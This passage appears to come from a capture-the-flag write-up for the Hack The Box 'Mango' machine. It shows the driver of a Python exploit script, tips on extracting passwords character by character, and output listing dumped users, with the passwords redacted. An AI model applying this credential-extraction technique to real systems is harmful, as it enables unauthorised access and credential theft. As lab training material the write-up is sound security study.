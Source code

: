 ```python
    parser = argparse.ArgumentParser(
        description="HTB Mango exploit"
    )
    parser.add_argument('-t', '--target', required=True)
    return parser.parse_args()

def main():
    try:
        start_time = time.time()
        args = set_arguments()
        my_exploit = exploit(args.target)
        my_exploit.find_users()
        my_exploit.find_passwords()

        end_time = time.time()
        print(f"\n[+] Total time: {round(end_time - start_time, 2)}s")
        print("\n[+] Script finished successfully :)")
        sys.exit(0)

    except KeyboardInterrupt:
        print("\n[!] Keyboard interrumpt detected. Quitting!")
        sys.exit(1)

main()
```

If interested, here are some issues I encountered that will save you time:

- The obtained passwords contain special characters. Using `string.punctuation` causes unexpected results due to collisions with regex syntax.
- There are multiple users. Exfiltrating the first entry in alphabetical order won’t be enough.

Successfully dumped the credentials from the database.

```bash
python3 mango.py -t 10.129.229.185

[+] User/s length: 5

[+] Total users: 2

[+] Discovered users: admin, mango

[+] Targeting user: admin

        [>] Password length: 12

        [>] Clear-text password: <REDACTED>

[+] Targeting user: mango

        [>] Password length: 16

        [>] Clear-text password: <REDACTED>

[+] Total time: 221.5s

[+] Script finished successfully :)
```
